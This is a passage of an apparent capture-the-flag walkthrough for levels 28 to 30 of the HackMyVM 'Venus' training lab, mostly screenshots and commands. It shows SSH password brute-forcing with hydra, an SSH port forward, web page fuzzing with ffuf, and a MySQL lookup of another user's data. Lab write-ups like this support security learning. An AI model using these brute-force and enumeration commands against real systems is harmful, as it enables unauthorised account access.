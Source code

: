 ![{F9872357-84B2-4545-B03B-4AF423E9EC46}](https://github.com/user-attachments/assets/58588aac-9925-40d8-9721-d091610f7671)
```
curl localhost
```

# twenty-eighth
Seems that ariel dont save the password for lola, but there is a temporal file.

![{A167A60F-DB1D-4671-B2C1-CB4D3AEF8D65}](https://github.com/user-attachments/assets/d69bacda-7755-4036-92c8-71f65bf7f0b9)

![{3E8105AA-16BA-4407-B8C1-19ACC7B157F7}](https://github.com/user-attachments/assets/d37c4bd7-c0c7-4578-b583-85209a7c596a)

I copied i saved passwords into my local machine to file `raw`
```
cat raw| cut -d'>' -f2 > passes
```
```
hydra -l lola -P passes ssh://venus.hackmyvm.eu:5000
```

# twenty-ninth
The user celeste has left a list of names of possible .html pages where to find her password. 

![{1D035FEB-F530-46C9-B632-B6EEDCEF829C}](https://github.com/user-attachments/assets/91867284-376d-4608-867b-f9d91a519a84)

![{5EBA073C-4F11-4CA6-AF9D-C418E515F360}](https://github.com/user-attachments/assets/19dcdcbf-b601-480b-8e83-026a0baf68e7)

Save `pages.txt` info your local machine
```
ssh -L 80:127.0.0.1:80 lola@venus.hackmyvm.eu -p 5000
```
```
ffuf -w pages.txt  -u http://127.0.0.1/FUZZ -c -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36' -mc all -fs 555 -e .html
```

# Thirty
The user celeste has access to mysql but for what?

![{154F3E82-BBAC-4194-B6A9-7C34A0D8A67F}](https://github.com/user-attachments/assets/6b96001b-8268-44fe-b328-a3c2b6c7b604)

```
mysql -u celeste -p
<paste password and enter>

![{6E747AE8-EF9A-46AB-8A1E-FF6C564C0337}](https://github.com/user-attachments/assets/f18e3817-44a1-4b35-857b-2d26588f853d)

35 haha <special hidden flag>
```
We need user `nina`
```
select * from people where uzer='nina';
```
